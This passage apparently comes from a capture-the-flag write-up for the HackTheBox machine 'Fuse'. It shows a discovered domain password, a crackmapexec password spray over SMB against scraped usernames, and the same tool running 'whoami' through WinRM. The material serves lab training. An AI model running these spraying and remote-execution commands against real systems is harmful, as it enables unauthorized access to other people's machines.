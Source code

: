 ![smb3](./fuse/smb3.png)

It seems like there is a password `$fab@s3Rv1ce$1`. Try this password and see if anything hits from the usernames scraped from the domain:

```bash
crackmapexec smb 10.10.10.193 -d 'fabricorp.local' -u users.txt -p '$fab@s3Rv1ce$1'
```

This returns a hit:

![smb4](./fuse/smb4.png)

Try and use this for code execution using WinRM since TCP port 5985 is seen as open from the full `nmap` scan:

```bash
crackmapexec winrm 10.10.10.193 -d 'fabricorp.local' -u users.txt -p '$fab@s3Rv1ce$1' -x 'whoami'
```

![smb5](./fuse/smb5.png)
